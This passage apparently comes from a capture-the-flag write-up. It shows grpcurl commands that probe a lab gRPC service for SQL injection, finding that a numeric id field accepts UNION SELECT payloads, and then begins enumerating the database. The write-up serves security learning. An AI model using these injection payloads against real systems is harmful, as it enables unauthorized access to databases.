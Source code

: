 I’ll try some different payloads to see what happens. Adding a `'` seems to break it:

```
oxdf@hacky$ grpcurl -d "id: \"320\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "Will update soon."
oxdf@hacky$ grpcurl -d "id: \"320'\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation

```

That could be SQL injection, but it could just as easily be that there is no user with id `320'`. I’ll try adding a `UNION` statement to see if I can inject data:

```
oxdf@hacky$ grpcurl -d "id: \"320' union select 1\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation

```

Still nothing. Interestingly, if I remove the `'`, there’s injection:

```
oxdf@hacky$ grpcurl -d "id: \"320 union select 1\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "1"

```

That means that the SQL query is something like `select * from table where userid = {input}`, and the `input` is an integer, so it isn’t wrapped in `"` or `'`.

### Enumerate DB

#### Identify DB

I’ll replace the 1 with `user()` and `version()`, but both break:

```
oxdf@hacky$ grpcurl -d 'id: "320 union select user()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation
oxdf@hacky$ grpcurl -d 'id: "320 union select version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation

```
